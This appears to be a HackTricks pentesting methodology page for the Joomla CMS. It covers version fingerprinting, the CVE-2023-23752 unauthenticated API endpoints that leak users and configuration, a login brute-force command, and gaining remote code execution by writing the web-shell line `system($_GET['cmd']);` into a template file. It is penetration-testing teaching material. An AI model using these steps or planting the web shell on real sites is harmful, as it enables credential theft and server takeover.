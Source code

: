 # Joomla

{{#include /banners/hacktricks-training.md}}




### Joomla Statistics

Joomla collects some anonymous [usage statistics](https://developer.joomla.org/about/stats.html) such as the breakdown of Joomla, PHP and database versions and server operating systems in use on Joomla installations. This data can be queried via their public [API](https://developer.joomla.org/about/stats/api.html).

```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
    "data": {
        "cms_version": {
            "3.0": 0,
            "3.1": 0,
            "3.10": 6.33,
            "3.2": 0.01,
            "3.3": 0.02,
            "3.4": 0.05,
            "3.5": 12.24,
            "3.6": 22.85,
            "3.7": 7.99,
            "3.8": 17.72,
            "3.9": 27.24,
            "4.0": 3.21,
            "4.1": 1.53,
            "4.2": 0.82,
            "4.3": 0,
            "5.0": 0
        },
        "total": 2951032
    }
}
```

## Enumeration

### Discovery/Footprinting

- Check the **meta**

```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```

- robots.txt

```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```

- README.txt

```
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```

### Version

- In **/administrator/manifests/files/joomla.xml** you can see the version.
- In **/language/en-GB/en-GB.xml** you can get the version of Joomla.
- In **plugins/system/cache/cache.xml** you can see an approximate version.

### Automatic

```bash
droopescan scan joomla --url http://joomla-site.local/
```

In[ **80,443 - Pentesting Web Methodology is a section about CMS scanners**](#cms-scanners) that can scan Joomla.

### API Unauthenticated Information Disclosure:

Versions From 4.0.0 to 4.2.7 are vulnerable to Unauthenticated information disclosure (CVE-2023-23752) that will dump creds and other information.

- Users: `http://<host>/api/v1/users?public=true`
- Config File: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF Module**: `scanner/http/joomla_api_improper_access_checks` or ruby script: [51334](https://www.exploit-db.com/exploits/51334)

### Brute-Force

You can use this [script](https://github.com/ajnik/joomla-bruteforce) to attempt to brute force the login.

```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```

## RCE

If you managed to get **admin credentials** you can **RCE inside of it** by adding a snippet of **PHP code** to gain **RCE**. We can do this by **customizing** a **template**.

1. **Click** on **`Templates`** on the bottom left under `Configuration` to pull up the templates menu.
2. **Click** on a **template** name. Let's choose **`protostar`** under the `Template` column header. This will bring us to the **`Templates: Customise`** page.
3. Finally, you can click on a page to pull up the **page source**. Let's choose the **`error.php`** page. We'll add a **PHP one-liner to gain code execution** as follows:
   1. **`system($_GET['cmd']);`**
4. **Save & Close**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## From XSS to RCE

- [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Joomla Exploitation Script that **elevate XSS to RCE or Others Critical Vulnerabilities**. For more info check [**this post**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). It provides **support for Joomla Versions 5.X.X, 4.X.X, and 3.X.X, and allows to:**
  - _**Privilege Escalation:**_ Creates an user in Joomla.
  - _**(RCE) Built-In Templates Edit:**_ Edit a Built-In Templates in Joomla.
  - _**(Custom) Custom Exploits:**_ Custom Exploits for Third-Party Joomla Plugins.


{{#include ../../banners/hacktricks-training.md}}


